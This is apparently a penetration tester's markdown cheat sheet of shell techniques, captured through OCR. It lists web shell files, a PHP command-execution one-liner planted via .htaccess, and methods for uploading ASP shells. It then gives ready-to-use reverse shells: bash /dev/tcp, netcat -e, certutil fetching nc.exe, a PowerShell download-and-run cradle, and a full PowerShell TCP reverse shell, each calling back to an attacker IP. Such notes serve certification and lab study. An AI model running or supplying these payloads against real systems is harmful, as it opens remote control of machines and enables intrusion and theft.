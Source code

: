   ```
## Shells

**Web shells**
- In kali, `cd /usr/share/webshells/`
  - `asp`, `aspx`, `cfm`, `jsp`, `laudanum`, `perl`, `php`, `phtml`
- `cp /usr/share/webshells/php/php-reverse-shell.php .`
- `cp /home/kali/Documents/windows-attack/Scripts/windows-php-reverse-shell.php .`
- for gifs: `GIF87a;` or `GIF89a;`
- https://github.com/Dhayalanb/windows-php-reverse-shell/tree/master
- `.htaccess`: https://github.com/wireghoul/htshells
  - Another trick from OSCP Walkthroughs
    - ```
      .htaccess
      AddType application/x-httpd-php .evil
      (+)
      siren.evil
      <pre><?php echo system($_GET['cmd']); ?></pre>
      ```
- for asp applications
  - `cp /usr/share/webshells/aspx/cmdasp.aspx .`
  - `cp /usr/share/laudanum/aspx/shell.aspx .`
  - `wget https://raw.githubusercontent.com/tennc/webshell/master/asp/webshell.asp -O cmd.asp`
  - try `.aspx` or `.mspx` to upload a cmd shell
  - another try:
    1. https://gist.github.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc   (+)
    2. https://github.com/autofac/Examples/blob/master/src/WebFormsExample/Site.Master.cs
    - See "Proving Grounds: Butch" https://auspisec.com/blog/20220118/proving_grounds_butch_walkthrough.html
  - `web.config` to run as an ASP: https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/
  - `cp /usr/share/webshells/config/web.config .`


**Reverse shells**
- `mknod a p && telnet IP 443 0<a | /bin/sh 1>a`
- `certutil.exe -urlcache -split -f http://IP/nc.exe nc.exe`
  - `.\\\\nc.exe IP 443 -e cmd.exe`
- `\\IP\Share\nc.exe IP 443 -e cmd.exe`
- `bash -i >& /dev/tcp/IP/80 0>&1`
- `nc -nv IP 80 -e /bin/bash`
- Notes
  - https://www.revshells.com/
  - https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/
  - Windows Reverse Shell Generator — https://github.com/thosearetheguise/rev
  - For the listener, use `rlwrap`


**Windows Reverse Shell**
1. `sudo impacket-smbserver -smb2support share /home/kali/Documents/windows-attack/nc/`
2. `cmd.exe /c //IP/Share/nc.exe -e cmd.exe IP 7680`
- Fix PATH: `set PATH=%SystemRoot%\system32;%SystemRoot%;`


**Powershell Reverse Shell**
- `powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://IP/powercat.ps1');powercat -c IP -p 5040 -e powershell"`
- `powershell -c "$client = New-Object System.Net.Sockets.TCPClient('IP',21);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
- `powershell -e <BASE64>`
  ```